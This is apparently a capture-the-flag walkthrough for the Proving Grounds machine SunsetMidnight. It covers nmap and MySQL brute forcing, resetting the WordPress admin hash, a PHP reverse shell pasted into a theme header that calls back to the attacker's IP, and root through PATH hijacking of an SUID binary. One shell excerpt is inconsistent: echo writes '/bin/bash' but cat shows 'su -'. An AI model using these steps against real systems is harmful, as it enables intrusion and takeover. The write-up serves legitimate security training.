







# SunsetMidnight

This is a walkthrough for SunsetMidnight, an intermediate rated box on Offensive Security's "Proving Grounds".

https://www.offensive-security.com/

The basic pathway we will follow is:

1. Scan to enumerate open services.
2. Brute force of credentials to MySQL server
3. Modify admin user password in Wordpress database to gain access the the Wordpress Control Panel
4. Insert a reverse shell code into a Wordpress theme to gain a shell foothold.
5. Move laterally to a another user with credentials gathered from wp-config
6. Priv esc to root using path hijacking and an SUID binary.

### Tools

- Kali Linux
- nmap
- mysql
- ssh

### Notes

- Important! Before attempting this machine make sure you add the host "sunset-midnight" to your /etc/hosts file, otherwise it may not work as expected.

### Target

The target IP for this walkthrough was:
- IP: 192.168.94.88

----------------------------------------------------------------------------------------------------------------------------------------------------

# Enumerate

## Port Scan

We begin with a basic nmap scan to enumerate the open TCP ports.  I like to use the following as my default scan:

    sudo nmap -sV -sC -p- -n 192.168.94.88 -oN nmapscan

Our scan shows open ports for **SSH**, **Apache web server**, and **MySQL**:

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-05 18:23 EDT
    Nmap scan report for 192.168.94.88
    Host is up (0.035s latency).
    Not shown: 65532 closed tcp ports (reset)
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 9c:fe:0b:8b:8d:15:e7:72:7e:3c:23:e5:86:55:51:2d (RSA)
    |   256 fe:eb:ef:5d:40:e7:06:67:9b:63:67:f8:d9:7e:d3:e2 (ECDSA)
    |_  256 35:83:68:2c:33:8b:b4:6c:24:21:20:0d:52:ed:cd:16 (ED25519)
    80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Did not follow redirect to http://sunset-midnight/
    | http-robots.txt: 1 disallowed entry 
    |_/wp-admin/
    3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
    |   Thread ID: 16
    |   Capabilities flags: 63486
    |   Some Capabilities: IgnoreSigpipes, Support41Auth, Speaks41ProtocolOld, FoundRows, DontAllowDatabaseTableColumn, SupportsTransactions, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, ODBCClient, SupportsLoadDataLocal, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
    |   Status: Autocommit
    |   Salt: h_%:2./B;C!uM^tJWU&[
    |_  Auth Plugin Name: mysql_native_password
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 67.85 seconds

## MySQL server

Using builtin nmap scripts we can further enumerate the MySQL service:

    nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 -p 3306 192.168.94.88

The scan results show us a list of valid MySQL users which we can then exploit:

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 16:46 EDT
    Nmap scan report for sunset-midnight (192.168.94.88)
    Host is up (0.090s latency).
    
    PORT     STATE SERVICE
    3306/tcp open  mysql
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
    |   Thread ID: 2118
    |   Capabilities flags: 63486
    |   Some Capabilities: SupportsTransactions, Speaks41ProtocolNew, LongColumnFlag, Support41Auth, ConnectWithDatabase, SupportsLoadDataLocal, IgnoreSigpipes, FoundRows, DontAllowDatabaseTableColumn, ODBCClient, Speaks41ProtocolOld, InteractiveClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
    |   Status: Autocommit
    |   Salt: J0R/1GSIUMe4pZRkCN?0
    |_  Auth Plugin Name: mysql_native_password
    | mysql-enum: 
    |   Valid usernames: 
    |     root:<empty> - Valid credentials
    |     netadmin:<empty> - Valid credentials
    |     guest:<empty> - Valid credentials
    |     web:<empty> - Valid credentials
    |     user:<empty> - Valid credentials
    |     sysadmin:<empty> - Valid credentials
    |     administrator:<empty> - Valid credentials
    |     webadmin:<empty> - Valid credentials
    |     admin:<empty> - Valid credentials
    |     test:<empty> - Valid credentials
    |_  Statistics: Performed 10 guesses in 1 seconds, average tps: 10.0
    
    Nmap done: 1 IP address (1 host up) scanned in 472.02 seconds

----------------------------------------------------------------------------------------------------------------------------------------------------

# Exploit

## Brute force credentials of MySQL server

  We could put this list of users into a text file and conduct an brute force attack however in this case we can simply use another buitin nmap script for MySQL brute force.

    nmap --script=mysql-brute -p 3306 192.168.94.88

We see that the script finds a password for the root user

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 16:58 EDT
    Nmap scan report for sunset-midnight (192.168.94.88)
    Host is up (0.83s latency).

    PORT     STATE SERVICE
    3306/tcp open  mysql
    | mysql-brute: 
    |   Accounts: 
    |     root:robert - Valid credentials
    |_  Statistics: Performed 31749 guesses in 600 seconds, average tps: 50.1

    Nmap done: 1 IP address (1 host up) scanned in 600.67 seconds:

User: root
Pass: robert
	
## Modify admin user password in Wordpress database to gain access the the Wordpress Control Panel

With our credentials we can now log into the SQL server:

    mysql --host=192.168.94.88 -u root -p

Once connected we can list the available databases:

    MariaDB [(none)]> SHOW DATABASES;
    
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mysql              |
    | performance_schema |
    | wordpress_db       |
    +--------------------+
    4 rows in set (0.168 sec)

  Accessing the server in the webrowser confirms that the server is a hosting a Wordpress page.  Lets take a closer looks at wordpress_db.

We can access wordpress_db with the following command:

    MariaDB [(none)]> connect wordpress_db
    
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    
    Connection id:    48248
    Current database: wordpress_db
	
Now that we have access to the database we want to change the admin password so that we can log into the admin portal.  First let us locate the admin user in the database.

List tables to find users table:
```
```
    MariaDB [wordpress_db]> SHOW TABLES;
    
    +------------------------+
    | Tables_in_wordpress_db |
    +------------------------+
    | wp_commentmeta         |
    | wp_comments            |
    | wp_links               |
    | wp_options             |
    | wp_postmeta            |
    | wp_posts               |
    | wp_sp_polls            |
    | wp_term_relationships  |
    | wp_term_taxonomy       |
    | wp_termmeta            |
    | wp_terms               |
    | wp_usermeta            |
    | wp_users               |
    +------------------------+
    13 rows in set (0.092 sec)

List users in wp_users table:

    MariaDB [wordpress_db]> SELECT * FROM wp_users;
    
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    | ID | user_login | user_pass                          | user_nicename | user_email          | user_url               | user_registered     | user_activation_key | user_status | display_name |
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    |  1 | admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ | admin         | example@example.com | http://sunset-midnight | 2020-07-16 19:10:47 |                     |           0 | admin       |
    +----+------------+------------------------------------+---------------+---------------------+------------------------+---------------------+---------------------+-------------+--------------+
    1 row in set (0.101 sec)
	  
Rather than trying to crack admin password we can simply replace it with one of our choosing.  First we need to generate a new password hash.  The password in the table is a Wordpress formatted hash but Wordpress will accept MD5 hashes as well.  We can generate an MD5 hash of 'password' from the command line:

    echo -n password | md5sum
	  
We get the following hash:
  
    5f4dcc3b5aa765d61d8327deb882cf99

We can insert the new hash into the wp_users table with the following command:

    UPDATE wp_users SET user_pass = '5f4dcc3b5aa765d61d8327deb882cf99' WHERE ID = 1;
	
## PHP-reverse-shell

After changing the admin password we can log into the wordpess admin panel to upload a reverse shell.

A look back at our nmap results shows us that Wordpress admin panel may accessible at `/wp-admin`.

    80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Did not follow redirect to http://sunset-midnight/
    | http-robots.txt: 1 disallowed entry 
    |_/wp-admin/

Navigating to 192.168.94.88 in the browser confirms this.

  

Once inside the admin panel we can take advantage of the admin's ability to edit wordpress themes.

Once logged in, navigate to Appearance > Theme Editor.

  

Select header.php of inactive theme.



Insert php reverse shell into header.

```
<?php $sock=fsockopen("192.168.45.162",4444);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```



Update file.



Start nc listener

    nc -nlvp 4444

Switch modified theme.



Reload the worpress page.



Check nc listener.

    ┌──(kali㉿kali)-[/mnt/hgfs/Cyber/proving_grounds/sunsetmidnight]
    └─$ nc -lvnp 4444
    listening on [any] 4444 ...
    connect to [192.168.45.162] from (UNKNOWN) [192.168.173.88] 50468
    /bin/sh: 0: can't access tty; job control turned off
    $ 

----------------------------------------------------------------------------------------------------------------------------------------------------

# Priv-esc

Now that we have a foothold we need to escalate to root priviledges.

A quick whoami revealls that we are the `www-data` user.

A quick `pwd` reveals that we are currently in the root worpress site directory

    $ pwd
    /var/www/html/wordpress

On machines with wordpress sites it is always a good idea to check the `wp-config.php` file for user credentials.

A quick `ls -la` reveals the contents of the directory including `wp-config.php`.

    $ ls -la
    total 220
    drwxr-x---  5 www-data www-data  4096 Jul 18  2020 .        
    drwxr-xr-x  3 root     root      4096 Jul 16  2020 ..       
    -rw-r--r--  1 www-data www-data   461 Jul 16  2020 .htaccess  
    -rw-r-----  1 www-data www-data   499 Jul 18  2020 index.php  
    -rw-r-----  1 www-data www-data 19915 Feb 12  2020 license.txt    
    -rw-r-----  1 www-data www-data  7278 Jan 10  2020 readme.html    
    -rw-r-----  1 www-data www-data  6912 Feb  6  2020 wp-activate.php   
    drwxr-x---  9 www-data www-data  4096 Jun 10  2020 wp-admin            
    -rw-r-----  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php  
    -rw-r-----  1 www-data www-data  2332 Jun  2  2020 wp-comments-post.php
    -rw-r-----  1 www-data www-data  3197 Jul 18  2020 wp-config.php
    drwxr-x---  6 www-data www-data  4096 Jul 28 06:42 wp-content 
    -rw-r-----  1 www-data www-data  3940 Feb  6  2020 wp-cron.php      
    drwxr-x--- 21 www-data www-data 12288 Jun 10  2020 wp-includes      
    -rw-r-----  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
    -rw-r-----  1 www-data www-data  3300 Feb  6  2020 wp-load.php 
    -rw-r-----  1 www-data www-data 47874 Feb  9  2020 wp-login.php   
    -rw-r-----  1 www-data www-data  8509 Apr 14  2020 wp-mail.php    
    -rw-r-----  1 www-data www-data 19396 Apr  9  2020 wp-settings.php 
    -rw-r-----  1 www-data www-data 31111 Feb  6  2020 wp-signup.php   
    -rw-r-----  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
    -rw-r-----  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php

Checking `wp-config.php` reveals credentials for a db user named `jose`.

    /** MySQL database username */                                                    
    define( 'DB_USER', 'jose' );                                                      
                                     
    /** MySQL database password */                                                    
    define( 'DB_PASSWORD', '645dc5a8871d2a4269d4cbe23f6ae103' );

The password appears to be a hash but `wp-config.php` passwords are stored in plaintext so `645dc5a8871d2a4269d4cbe23f6ae103` is jose's actual password.

Checking the `/etc/passwd` file confirms that there is a `jose` user on the box as well.

    jose:x:1000:1000:jose,,,:/home/jose:/bin/bash

Let's try to log into jose's shell account.  We could use `su` but connecting via ssh will provide us with a full shell.

    ┌──(kali㉿kali)-[/mnt/hgfs/Cyber/proving_grounds/sunsetmidnight]
    └─$ ssh jose@192.168.173.88  
    The authenticity of host '192.168.173.88 (192.168.173.88)' can't be established.
    ED25519 key fingerprint is SHA256:N34us4v1mkW033FYIZ39T+rJmHj/ma/cmHbf/S6AovA.
    This key is not known by any other names.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '192.168.173.88' (ED25519) to the list of known hosts.
    jose@192.168.173.88's password: 
    Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    jose@midnight:~$

We now have a full shell account as `jose`, checking the available SUID binaries reveals an unusual entry for `/usr/bin/status`.

    jose@midnight:~$ find / -perm /4000 2> /dev/null
    /usr/bin/su
    /usr/bin/sudo
    /usr/bin/fusermount
    /usr/bin/status
    /usr/bin/chfn
    /usr/bin/passwd
    /usr/bin/chsh
    /usr/bin/umount
    /usr/bin/newgrp
    /usr/bin/mount
    /usr/bin/gpasswd
    /usr/lib/eject/dmcrypt-get-device
    /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    /usr/lib/openssh/ssh-keysign

`status` is not listed in GTFO bins but running `strings` against it reveals how we might exploit it.  Strings shows us that `status` appears to make a call to another file named `service` using a relative reference (instead of using the full path).

    jose@midnight:~$ strings /usr/bin/status | grep service
    service ssh status

We can exploit this by creating our own `service` file and modifying `$PATH` to point to it instead.  When we run `status` then `service` will be executed with root permissions.

First we'll switch to `/tmp` where we have write permissions.
    
    jose@midnight:~$ cd /tmp

Next we will create a new `service` file and insert a payload to create a new root shell.

    jose@midnight:/tmp$ echo "/bin/bash" > service
    jose@midnight:/tmp$ cat service
    su -

We must modify our `service` script to be executable.

    jose@midnight:/tmp$ chmod 744 service

Then we will modify the path to include `/tmp`.

    jose@midnight:/tmp$ export PATH="/tmp:$PATH"

Finally we run `status`.

    jose@midnight:~$ status
    root@midnight:/tmp#

We now have **root**!

----------------------------------------------------------------------------------------------------------------------------------------------------
	
	
	
	

  
 
 